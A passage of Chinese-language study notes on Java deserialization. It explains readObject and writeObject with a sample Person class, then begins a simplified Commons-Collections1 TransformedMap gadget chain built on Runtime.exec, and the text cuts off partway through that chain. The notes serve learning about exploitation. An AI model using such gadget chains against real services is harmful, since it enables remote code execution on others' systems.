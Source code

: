 

# JAVA反序列化

`readObject`：和`php __wakeup`类似

```java
package org.vulhub.Ser;
import java.io.IOException;

public class Person implements java.io.Serializable {
    public String name;
    public int age;
    Person(String name, int age) {
        this.name = name;
        this.age = age;
    }
    private void writeObject(java.io.ObjectOutputStream s) throws IOException {
        s.defaultWriteObject();
        s.writeObject("This is a object");
    }
    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        String message = (String) s.readObject();
        System.out.println(message);
    }
}
```

序列化对象时会调用writeObject方法写入内容，参数类型为ObjectOutputStream。反序列化时会调用readObject读取流，该流可以进行利用以读取前面写入的内容（也可以其他利用）

defaultWriteObject将对象可序列化字段写入输出流，也就是序列化。

s.writeObject把字符串写入流中。read同理

在代码进行到中间，也就是writeObject完的时候用SerializationDumper查看数据时发现写入的字符串放在`objectAnnotation`的位置

* objectAnnotation:序列化时开发者写入的内容会放在objectAnnotation中。readObject反序列时会读取写入内容（不用考虑类属性，任意东西都能写入）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221110210950116.png)

readObject读取写入内容后传入message，printIn输出



在URLDNS利用链里用到了hashmap，主要原因就是hashmap继承了Serializable接口



## Common-collections1 TransformMap版

下面对p神编写的简化版commoncollections1的利用链

```java
package org.vulhub.Ser;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.getRuntime()),
new InvokerTransformer("exec", new Class[]{String.class},
```